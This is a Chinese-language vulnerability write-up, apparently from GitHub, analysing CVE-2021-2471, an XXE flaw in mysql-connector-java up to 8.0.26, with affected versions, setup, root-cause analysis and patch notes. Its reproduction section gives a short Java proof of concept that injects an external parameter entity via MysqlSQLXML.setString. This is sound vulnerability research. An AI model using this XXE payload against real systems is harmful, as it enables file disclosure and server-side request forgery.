




- [CVE-2021-2471 XXE漏洞](#cve-2021-2471-xxe漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [MysqlSQLXML#getSource](#mysqlsqlxmlgetsource)
  - [复现](#复现)
  - [补丁](#补丁)
# CVE-2021-2471 XXE漏洞
## 影响版本
Version <=8.0.26
## 环境搭建
```xml
    <dependency>
        <groupId>mysql</groupId>
        <artifactId>mysql-connector-java</artifactId>
        <version>8.0.26</version>
    </dependency>
```
## 原理分析
### MysqlSQLXML#getSource
在`MysqlSQLXML#getSource`中,根据传入的类型为DOMSource时,会`return new DOMSource(builder.parse(inputSource))`,对inputSource进行解析,在builder的创建过程中没有任何安全过滤和限制。  
而inputSource的值当`this.fromResultSet`为空(即不是从数据库返回结果得到)时为`this.stringRep`。

而`this.stringRep`的值是从setString中设置,而这是一个public方法,如果方法参数可控则会产生XXE。

## 复现
```java
    public static void main(String[] args) throws SQLException {


        MysqlSQLXML myXML = new MysqlSQLXML(null);
        myXML.setString("<!DOCTYPE foo [<!ENTITY % xxe SYSTEM \"http://127.0.0.1:8080/test.dtd\"> %xxe;]>");
        myXML.getSource(DOMSource.class);
    }
```

## 补丁
添加了setFeature来限制各种实体解析。
